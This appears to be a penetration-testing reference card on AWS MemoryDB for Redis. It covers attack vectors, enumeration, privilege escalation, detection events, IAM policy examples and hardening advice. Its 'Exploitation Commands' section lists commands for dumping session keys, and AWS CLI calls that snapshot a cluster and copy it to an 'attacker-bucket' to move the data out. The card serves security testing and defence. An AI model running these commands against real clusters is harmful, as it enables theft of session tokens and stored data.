

#  AWS MemoryDB Security



> **Category**: REDIS

Amazon MemoryDB for Redis is a durable, Redis-compatible in-memory database. Unlike ElastiCache, data persists to disk. Security risks include auth bypass, snapshot theft, and session hijacking.

## Quick Stats

| Risk Level | Scope | Port | Auth |
| --- | --- | --- | --- |
| **HIGH** | **Regional** | **6379** | **ACL/TLS** |

## Service Overview

### Durable In-Memory Database

Redis-compatible with Multi-AZ durability. Data stored in memory but persisted to transaction log. Supports Redis data structures, Pub/Sub, and Lua scripting.

> Attack note: Unlike ElastiCache, snapshots contain durable data. Auth tokens often stored in Secrets Manager or hardcoded.

### Redis ACLs

Supports Redis 6+ ACLs for fine-grained access control. Users can be restricted to specific commands and key patterns. Default user often has full access.

> Attack note: Default user misconfiguration allows full cluster access. ACL rules can be enumerated with ACL LIST.

## Security Risk Assessment

`████████░░` **7.5/10** (HIGH)

MemoryDB often stores session data, cached credentials, and application state. Durability means historical data persists in snapshots. Compromised access enables session hijacking and data theft.

## ⚔️ Attack Vectors

### Authentication Attacks

- Default user with no password
- Weak ACL passwords brute force
- AUTH token from Secrets Manager
- TLS disabled - credential sniffing
- ACL bypass via command renaming

### Data Theft

- KEYS * enumeration
- Session token extraction
- Cached credentials in values
- Snapshot exfiltration
- Replication stream interception

## ⚠️ Misconfigurations

### Authentication Issues

- Default user enabled without password
- ACL rules too permissive
- No TLS encryption in transit
- Auth tokens in environment variables
- Cross-account snapshot sharing

### Network Issues

- Security group allows 0.0.0.0/0
- No VPC endpoint for management
- Cluster in public subnet
- Insufficient subnet isolation
- Missing encryption at rest

## 🔍 Enumeration

**List Clusters**
```bash
aws memorydb describe-clusters
```

**Describe Cluster**
```bash
aws memorydb describe-clusters \\
  --cluster-name CLUSTER_NAME
```

**List Snapshots**
```bash
aws memorydb describe-snapshots
```

**List Users**
```bash
aws memorydb describe-users
```

**List ACLs**
```bash
aws memorydb describe-acls
```

## 📈 Privilege Escalation

### Redis Command Abuse

- CONFIG GET * for configuration exposure
- DEBUG SEGFAULT for DoS (if enabled)
- EVAL for Lua script execution
- MODULE LOAD if modules enabled
- CLIENT LIST for connection info

### Escalation Paths

- Redis access → Session tokens → App access
- Cached credentials → Database access
- Snapshot copy → Cross-account data theft
- Replication → Secondary cluster control
- Lua scripting → Arbitrary code execution

## 📊 Data Exposure

### Common Data Found

- User session tokens/JWTs
- OAuth access/refresh tokens
- Cached API responses with PII
- Rate limiting counters
- Feature flags and config

### Exfiltration Techniques

- SCAN 0 MATCH * for all keys
- DUMP key for serialized export
- Create snapshot and copy cross-account
- SUBSCRIBE to Pub/Sub channels
- SLOWLOG GET for query history

## 🛡️ Detection

### CloudTrail Events

- CreateCluster - new cluster
- CreateSnapshot - snapshot creation
- CopySnapshot - cross-account copy
- ModifyCluster - config changes
- CreateUser - new user creation

### Indicators of Compromise

- KEYS * commands (enumeration)
- Unusual AUTH failures
- Cross-region snapshot copies
- New ACL users created
- CONFIG GET attempts

## Exploitation Commands

**Connect to MemoryDB (redis-cli)**
```bash
redis-cli -h ENDPOINT -p 6379 \\
  --tls --user USERNAME --pass PASSWORD
```

**Enumerate All Keys**
```bash
SCAN 0 MATCH * COUNT 1000
```

**Get Session Tokens**
```bash
KEYS session:*
```

**Dump Key Value**
```bash
GET session:user123
```

**List ACL Users (Redis)**
```bash
ACL LIST
```

**Get Config (Redis)**
```bash
CONFIG GET *
```

**Copy Snapshot Cross-Account**
```bash
aws memorydb copy-snapshot \\
  --source-snapshot-name SNAP_NAME \\
  --target-snapshot-name attacker-copy \\
  --target-bucket attacker-bucket
```

**Create Snapshot for Exfil**
```bash
aws memorydb create-snapshot \\
  --cluster-name CLUSTER \\
  --snapshot-name exfil-snap
```

## Policy Examples

### ❌ Dangerous - Full Access

```json
{
  "Effect": "Allow",
  "Action": "memorydb:*",
  "Resource": "*"
}
```

*Full MemoryDB access - can copy snapshots cross-account, create users*

### ✅ Secure - Read Only Specific Cluster

```json
{
  "Effect": "Allow",
  "Action": [
    "memorydb:DescribeClusters",
    "memorydb:DescribeSnapshots"
  ],
  "Resource": "arn:aws:memorydb:*:*:cluster/prod-*"
}
```

*Only describe specific clusters matching pattern*

### ❌ Risky - Snapshot Permissions

```json
{
  "Effect": "Allow",
  "Action": [
    "memorydb:CreateSnapshot",
    "memorydb:CopySnapshot"
  ],
  "Resource": "*"
}
```

*Can create and copy snapshots - data exfiltration risk*

### ✅ Secure - Deny Snapshot Copy

```json
{
  "Effect": "Deny",
  "Action": "memorydb:CopySnapshot",
  "Resource": "*",
  "Condition": {
    "StringNotEquals": {"aws:PrincipalAccount": "123456789012"}
  }
}
```

*Prevent cross-account snapshot copying*

## Defense Recommendations

### 🔐 Enable ACL Authentication

Require authentication for all connections. Disable default user or set strong password.

```bash
aws memorydb create-user --user-name app --access-string 'on ~app:* +@read'
```

### 🔒 Enforce TLS

Require TLS encryption in transit to prevent credential sniffing.

### 🛡️ Restrict ACL Permissions

Use Redis ACLs to limit commands and key patterns per user.

```bash
+@read +@write ~session:* -KEYS -CONFIG
```

### 🚫 Prevent Snapshot Exfil

Use SCP to deny CopySnapshot to external accounts.

### 📊 Enable Encryption at Rest

Enable KMS encryption for data at rest including snapshots.

### 🔍 Monitor Redis Commands

Enable SLOWLOG and monitor for suspicious commands like KEYS *, CONFIG GET.

---

*AWS MemoryDB Security Card*

*Always obtain proper authorization before testing*
